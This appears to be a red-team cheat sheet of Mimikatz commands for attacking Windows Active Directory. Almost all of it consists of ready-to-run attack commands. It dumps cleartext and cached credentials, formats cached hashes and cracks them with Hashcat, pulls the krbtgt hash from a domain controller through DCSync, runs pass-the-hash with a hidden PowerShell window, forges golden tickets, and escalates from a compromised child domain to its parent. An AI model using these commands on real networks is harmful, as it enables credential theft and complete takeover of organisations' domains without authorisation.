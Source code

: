 ## Mimikatz

https://github.com/gentilkiwi/mimikatz/wiki
https://adsecurity.org/?p=2362

Dump Cleartext Credentials
```
	sekurlsa::wdigest
	sekurlsa::logonpasswords
	lsadump::secrets
```

Dump cached domain credentials
```
	lsadump::cache
```

Format mscachev2 as ```$DCC2$10240#username#hash```
```
	cat 'mscachecreds.txt' | awk -F “:” {'print "$DCC2$10240#"$1"#"$2'}
```

Crack mscachev2 format with Hashcat (extremely slow)
```
	./hashcat -m 2100 -a 0 mscachev2.dump ./wordlists/* -r rules/dive.rule
```

DCSYNC - Remote Hash Dumping from a Domain Controller
```
	mimikatz lsadump::dcsync /user:domain\krbtgt
```

- There is also a CS built-in function for this
- Source: http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

Pass the Hash
```
	mimikatz sekurlsa::pth /user:localadmin /domain:. /ntlm:21306681c738c3ed2d615e29be1574a3 /run:powershell -w hidden
```

Golden Ticket Creation (File)
```	
	mimikatz kerberos::golden /user:newadmin /domain:domain.com /sid:S-1-5-21-3683589091-3492174527-1688384936 /groups:501,502,513,512,520,518,519 /krbtgt:<krbtgthash> /ticket:newadmin.tkt
```

Golden Ticket Creation (Pass-The-Ticket) - Create the ticket for your current session
```
	mimikatz kerberos::golden /user:newadmin /domain:domain.com /sid:S-1-5-21-3683589091-3492174527-1688384936 /krbtgt:<krbtgthash> /ptt
```

To create a Golden ticket to own the parent domain, once a child domain controller is compromised you will need the following pieces:
```
	/user:ChildDomainControllerMachineName$  
	/rc4: KRBTGT Hash
	/sid:Child Domain SID
	/domain:FQDN of Child Domain
	/groups:516 
	/sids:ParentSID-516,S-1-5-9 
	/id:ID of Child Domain Controller 
	/ptt
```
